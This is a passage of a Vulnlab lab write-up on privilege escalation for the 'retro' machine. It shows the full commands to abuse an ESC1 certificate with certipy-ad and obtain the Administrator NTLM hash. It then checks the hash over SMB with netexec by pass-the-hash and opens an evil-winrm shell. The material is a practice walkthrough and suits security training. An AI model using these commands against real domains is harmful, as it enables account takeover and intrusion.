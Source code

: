 # Privilege Escalation

## CRITICAL    - Retrieving NTLM Hash For Administrator User Through A Certificate (ESC1)

Now, we use the `administrator.pfx` certificate to generate before, and retrieve, through a TGT request, the Administrator’s NTLM hash.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad auth -pfx administrator.pfx -username Administrator -domain retro.vl
```

![image.png](image%2028.png)

Checking if we really compromised the Administrator account, we execute the netexec smb using the pass-the-hash technique:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u Administrator -H 252fac7066d93dd009d4fd2cd0368389
```

![image.png](image%2029.png)

Now, we just have to get a WinRM shell using the Administrator’s NTLM hash:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  evil-winrm -i retro.vl -u Administrator -H 252fac7066d93dd009d4fd2cd0368389
```
